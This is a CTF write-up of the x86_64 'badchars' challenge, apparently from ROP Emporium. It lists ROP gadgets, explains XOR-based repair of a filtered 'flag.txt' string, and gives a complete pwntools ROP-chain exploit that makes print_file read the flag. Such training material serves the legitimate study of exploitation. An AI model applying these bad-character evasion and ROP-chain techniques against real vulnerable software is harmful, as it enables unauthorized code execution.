

This is a Quick Writeup on **Badchars** challenge

## For x86_64 

Reversing pwnme function in libc,


we can clearly see that its replacing these chars ['x','a','.','g'] with *0xeb* in our payload .
if it changed our address in payload it will little hard but we will tackle it after creating first payload . now first we have to think how are we are going to make safe "flag.txt" transfer to print_file.
that function will definitely going to change our payload but we are not going to stop by that , we will some ROP gadget which will help to repair again the "flag.txt" .
Lets the hunt begin.
by viewing ROPgadgets with this command:

```shell
ROPgadget --binary ./badchars | grep "ret" |less
```

I found this gadgets:

```shell
0x00000000004004ee : ret (for movaps issue)
0x0000000000400628 : xor byte ptr [r15], r14b ; ret
0x0000000000400630 : sub byte ptr [r15], r14b ; ret
0x000000000040062c : add byte ptr [r15], r14b ; ret
0x0000000000400634 : mov qword ptr [r13], r12 ; ret
0x00000000004006a0 : pop r14 ; pop r15 ; ret
0x000000000040069c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004006a3 : pop rdi ; ret
```
that xor ,sub,add,mov gadgets are already provided in useful gadget function for this challenge. or we can also simply see that we have there pop gadgets and value write or change gadgets so they are definitly going to useful in this task.
we need **ret** for just movaps issue.
we can use xor or add or sub to change the destroyed "flag.txt" which is now **"fl\xeb\xeb\xebt\xebt"** , r14 byte will change r15 particular byte depends on what location we give.
I am going to use Xor for this.

```python
>>>print(xor(b'flag.txt',b'fl\xEB\xEB\xEBt\xEBt'))
b'\x00\x00\x8a\x8c\xc5\x00\x93\x00'
```
We need a location to store our flag.txt .quick vmmap view:



I have chosen writing to place 0x601070.
now we have all things ready lets build the rop chain.
ropchain = 'a'*40 (usual from prev chals)
ropchain +=  ret (I am not going explain this)
ropchain +=  popr12,r13,r14,r15 (this will set reg's for our upcoming 2 gadgets mov & xor)
ropchain += 'flag.txt',0x601070(our qute location),\x8a,0x601070+2(location of "a" in flag.txt)
after that we similarly xor other bytes also , then push our location to rdi as print file needs it before calling fopen (see fucking function)
then vala call the printfile.

Here's the Exploit:
```python
# 0x00000000004004ee : ret (for movaps issue)
# 0x0000000000400628 : xor byte ptr [r15], r14b ; ret
# 0x0000000000400630 : sub byte ptr [r15], r14b ; ret
# 0x000000000040062c : add byte ptr [r15], r14b ; ret
# 0x0000000000400634 : mov qword ptr [r13], r12 ; ret
# 0x00000000004006a0 : pop r14 ; pop r15 ; ret
# 0x000000000040069c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x00000000004006a3 : pop rdi ; ret
# bad chars x a . t

writto =0x601070
ret = p64(0x4004ee)
xory = p64(0x400628)
suby = p64(0x400630)
addy = p64(0x40062c)
mov = p64(0x400634)
r14r15 = p64(0x4006a0)
r12345 = p64(0x40069c)
rdi = p64(0x4006a3)
printf = p64(0x000400510)

badc = ['x','a','.','g']
for i in badc:
    print(f"{hex(ord(i))=}")
    
# >>> print(xor(b'flag.txt',b'fl\xEB\xEB\xEBt\xEBt'))
# b'\x00\x00\x8a\x8c\xc5\x00\x93\x00'

payload = flat(
    b"n"*40,
    ret,
    r12345,
    b'flag.txt',
    p64(writto),
    p64(0x8a),
    p64(writto+2),
    mov,
    xory,
    r14r15,
    p64(0x8c),
    p64(writto+3),
    xory,
    r14r15,
    p64(0xc5),
    p64(writto+4),
    xory,
    r14r15,
    p64(0x93),
    p64(writto+6),
    xory,
    rdi,
    p64(writto),
    printf,
)
io.sendline(payload)
```

Valar Morghulis!!
